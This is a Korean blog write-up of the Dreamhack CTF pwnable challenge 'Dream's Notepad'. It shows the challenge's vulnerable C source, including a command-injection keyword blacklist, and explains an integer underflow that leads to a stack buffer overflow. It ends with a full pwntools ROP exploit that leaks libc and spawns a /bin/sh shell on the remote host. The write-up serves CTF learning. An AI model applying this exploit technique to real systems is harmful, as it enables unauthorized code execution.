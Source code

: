 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN Dream's Notepad"
excerpt: "드림핵 포너블 Dream's Notepad 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-08 18:00
---
```


드림핵 포너블 Dream's Notepad 문제이다. 이 문제를 다운받아 보면 바이너리와 소스코드만 주어진다. 문제 환경은 공개되어 있지 않다.

문제 출제자의 의도는 rtc기법을 사용하라고 일부러 그런것 같은데... rtc를 까먹고 ROP 노가다를 했다. 일단 소스코드를 살펴보자.

```c
//gcc -o Notepad Notepad.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void Initalize(){
   setvbuf(stdin, (char *)NULL, _IONBF, 0);
   setvbuf(stdout, (char *)NULL, _IONBF, 0);
   setvbuf(stderr, (char *)NULL, _IONBF, 0);
}

void main()
{
    Initalize();

    puts("Welcome to Dream's Notepad!\n");

    char title[10] = {0,};
    char content[64] = {0,};

    puts("-----Enter the content-----");
    read(0, content, sizeof(content) - 1);

    for (int i = 0; content[i] != 0; i++)
    {
        if (content[i] == '\n')
        {
            content[i] = 0;
            break;
        }
    }

    if(strstr(content, ".") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "/") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, ";") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "*") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "cat") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "echo") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "flag") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "sh") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "bin") != NULL) {
        puts("It can't be..");
        return;
    }

    char tmp[128] = {0,};

    sprintf(tmp, "echo %s > /home/Dnote/note", content);
    system(tmp);
    
    FILE* p = fopen("/home/Dnote/note", "r");
    unsigned int size = 0;
    if (p > 0)
    {
        fseek(p, 0, SEEK_END);
        size = ftell(p) + 1;
        fclose(p);
        remove("/home/Dnote/note");
    }

    char message[256];
    
    puts("\n-----Leave a message-----");
    read(0, message, size - 1);

    puts("\nBye Bye!!:-)");
}
```

첫번째로 read 함수를 통해 63만큼의 문자열을 입력 받고 블랙리스트 방식으로 문자열을 검사한다. 문제를 풀고 다른 분들의 풀이를 보니 커멘드 인젝션만으로 푸신 분들도 있었다.

블랙리스트 검사를 통과하면 echo를 통해 입력한 문자열을 쉘에 출력하고 출력한 값을 /home/Dnote/note에 저장한다. 이후 system함수를 통해 /home/Dnote/note에 저장된 데이터를 실행한다. 그 다음으로 fopen을 통해 /home/Dnote/note 파일을 오픈하는데 파일이 존재할 경우 size 변수에 파일 사이즈 +1을 해주고 파일을 삭제한다. 파일이 없으면 size는 초기화 상태인 0으로 고정된다.

이후 256사이즈의 버퍼에 read 함수를 통해 입력 받는데 입력 가능한 사이즈는 size-1이다. 여기서 unsigned int와 signed int변환 간에 생기는 취약점이 있다. 위의 fopen으로 오픈한 파일이 존재하지 않으면 size 변수는 0을 가지고 있는데 여기서 -1을 해 사이즈를 지정한다. 이때 보수 연산을 통해 결국 read가 읽을 수 있는 값은 int의 가장 큰 수가 된다. 따라서 버퍼 오버플로우를 일으킬 수 있다.

---

내가 작성한 익스플로잇을 간단히 설명해보겠다. 

우선 버퍼 오버플로우가 가능하려면 /home/Dnote/note 파일이 존재하지 않아야 한다. 따라서 백틱( ` )을 이용해 오류를 발생시켜 파일이 생성되지 않도록 했다. 백틱은 쌍을 이뤄 사용해야 한다. 하나만 사용되면 오류가 발생해 백틱을 열었으면 백틱을 한번 더 입력 해 닫아줘야 한다.

ROP를 통해서 read_got를 put_plt 함수로 출력하고 이후 다시 main함수로 돌아온다. gdb를 통해 확인한 결과 rbp-0x1e0를 통해 read 한 데이터를 입력 받고 있었다. 0x1e0를 dec로 바꾸면 480이고 sfp를 포함하면 488만큼 메모리를 덮어줘야 한다. 이후 pop rdi; ret 가젯을 사용했다.

출력된 read 함수 주소를 이용해 libc base 주소를 계산하고 libc의 system함수 주소와 bin/sh 주소를 찾아 다시 버퍼 오버플로우를 통해 쉘을 실행시켰다.

이런 방법에 문제는 해당 문제의 환경을 모르기 때문에 환경에 따른 libc 오프셋이 바뀔 수 있다. 실제로 우분투 16 18 20 22 버전의 libc를 각각 전부 돌려 쉘을 획득 할 수 있었다.

문제를 풀긴 풀었지만... 정석대로 풀려면 rtc 공격을 활용해야 한다.


```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 12708);
#c = process("./Notepad")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

c.sendafter(b"-----Enter the content-----\n", b"`")
#pop rdi; ret 0x400c73
pr = 0x400c73
read_got = 0x602040
put_plt = 0x400730
main = 0x400957

payload = p64(pr)+p64(read_got)+p64(put_plt)+p64(main)
payload = b"a"*488 + payload
c.sendafter(b"-----Leave a message-----\n", payload)

c.recvuntil(b"Bye Bye!!:-)\n")
libc_base = u64(c.recv(6)+b"\x00\x00")-libc.sym['read']
print("libc_base : "+hex(libc_base))

system = libc_base + libc.sym['system']
print(f"system : {hex(system)}")
binsh = libc_base+list(libc.search(b'/bin/sh'))[0]
print(f"binsh : {hex(binsh)}")

payload2 = p64(pr)+p64(binsh)+p64(system)
payload2 = b"a"*488 + payload2

c.sendafter(b"-----Enter the content-----\n", b"`")

c.sendafter(b"-----Leave a message-----\n", payload2)
c.interactive()

```